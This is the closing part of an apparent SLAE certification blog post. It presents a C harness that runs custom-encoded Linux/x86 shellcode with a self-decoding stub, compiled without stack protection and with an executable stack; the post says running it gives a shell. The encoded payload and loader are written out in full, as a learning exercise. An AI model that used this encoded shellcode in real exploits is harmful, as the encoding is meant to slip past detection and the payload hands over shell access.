 
```c
/*
 *      SLAE - Assignment #4: Custom Encoded/decoded Shellcode (Linux/x86)
 *      Author: Alain Menelet 
 *      StudentID - SLAE-3763
 *      HowTo: gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
 */

#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\xeb\x3d\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb1\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbe\xff\xff\xff\x02\xfa\xcb\x09\x1f\xea\x03\x45\xce\x05\x2e\xb5\x04\x6d\xd1\x07\x7e\xfe\x04\xb4\x55\x03\x4a\x32\x03\x5f\x76\x01\x01\x69\x0a\x57\x6c\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x0a\xbb\x5d\x01\x69\xe2\x09\xc4\x14\x02\x4f\x82";



int main()
{

        printf("taille %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```

And we test all of it:

```c
./test_shellcode
$
````

we obtain a shell. Our shellcode has been decoded and executed.



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

StudentID - SLAE-3763
